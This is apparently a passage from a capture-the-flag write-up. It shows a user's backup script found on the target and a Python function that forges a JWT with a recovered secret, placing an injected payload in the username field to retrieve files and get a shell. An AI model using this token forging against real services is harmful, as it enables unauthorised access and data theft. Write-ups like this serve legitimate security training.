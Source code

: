 ![picture 20](/assets/images/5608adabcd630b3efe6e716666579165e5ccfc00af43bdadd62b0a55551a6a58.png)  

### Finding backup script
Checking the `/home/bean/Documents/backup_home.sh` it appears that home is being backed up and saved into `.tar.gz`.

```bash
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```

## Getting shell as Bean
This is the script i've used to download the `tar.gz`

```python
import sys
import requests
import jwt

def jwt_inject_command(target,payload,secret):

	#encoded_jwt = jwt.encode({secret})
	encoded_jwt = jwt.encode({'username': payload}, secret, algorithm='HS256')
	#print("Token:" + encoded_jwt)
	cookies={
		'token':encoded_jwt
	}
	proxies={
		'http': 'http://127.0.0.1:8080'
	}
	r = requests.get(target,cookies=cookies,proxies=proxies,stream=True)
	return r

```